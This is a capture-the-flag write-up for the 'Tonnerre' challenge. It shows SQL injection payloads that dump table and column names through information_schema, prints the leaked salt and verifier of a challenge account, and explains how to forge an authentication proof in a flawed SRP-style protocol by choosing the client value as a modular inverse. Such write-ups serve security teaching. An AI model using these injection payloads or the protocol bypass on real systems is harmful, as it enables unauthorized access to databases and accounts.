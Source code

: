 Tonnerre Writeup
==============

## 1. SQL Injection
```SQL
' union (select table_name from information_schema.tables LIMIT 40,1) -- -
' union (select table_name from information_schema.tables LIMIT 41,1) -- -
```
First, we can find table names `users` and `admin_users` with trivial SQL injection. `admin_users` tables is used for web server and `users` table is used for terminal login.

```SQL
' union (select column_name from information_schema.columns where table_name='admin_users' limit 0,1) -- -
```
We can even extract column names for each table with the query above.

```
[users]
user
salt
verifier

[admin_users]
user
pass
```
This is the table structure. There is only one user in `users` table.

* user=get_flag
* salt=d14058efb3f49bd1f1c68de447393855e004103d432fa61849f0e5262d0d9e8663c0dfcb877d40ea6de6b78efd064bdd02f6555a90d92a8a5c76b28b9a785fd861348af8a7014f4497a5de5d0d703a24ff9ec9b5c1ff8051e3825a0fc8a433296d31cf0bd5d21b09c8cd7e658f2272744b4d2fb63d4bccff8f921932a2e81813
* verifier=ebedd14b5bf7d5fd88eebb057af43803b6f88e42f7ce2a4445fdbbe69a9ad7e7a76b7df4a4e79cefd61ea0c4f426c0261acf5becb5f79cdf916d684667b6b0940b4ac2f885590648fbf2d107707acb38382a95bea9a89fb943a5c1ef6e6d064084f8225eb323f668e2c3174ab7b1dbfce831507b33e413b56a41528b1c850e59

---

## 2. public_server.py
1. Get `username` and compare it
2. Get `public_client` as a hex value
3. `c = public_client * verifier`
4. Check `c not in [N-g, N-1, 0, 1, g]`
5. `random_server = random.randint(2, N-3)`
6. `public_server = pow(g, random_server, N)`
7. `residue = (public_server + verifier) % N`
8. Print `salt`, `residue`
9. `session_secret = pow(c, random_server, N)`
10. `session_key = SHA256(tostr(session_secret))`
11. Get `proof` and compare with `SHA256(tostr(residue) + session_key)`. If match, print *flag*.

---

## 3. How to solve
Let `P = public_client`, `V = verifier`, `R = random_server`.

### Observation
- `salt` is useless
- P can be controlled, N, g, V is known, R is unknown
- `residue = (g**R + V) % N` is known $\iff$ `(g**R) % N` is known
- We should calculate `((P*V)**R) % N`

### Modular Inverse
If we know a prime number $N$ and an integer $a$, we can calculate $a^{-1}$ such that $a \times a^{-1} \equiv 1 ~ mod ~ N$.

### Solve
#### First Attempt
Let $P = V^{-1}g$. Then $(PV)^R \equiv g ^ R ~ mod ~ N$. Then we can calculate it with the residue. However, `c` becomes `g` and this solution cannot pass number 4.

#### Second Attempt
Let $P = V^{-1}g^{-1}$. Then $(PV) ^ R \equiv (g^{-1}) ^ R ~ mod ~ N$. We can calculate this value with the modular inverse of $g^R ~ mod ~ N$. Yay!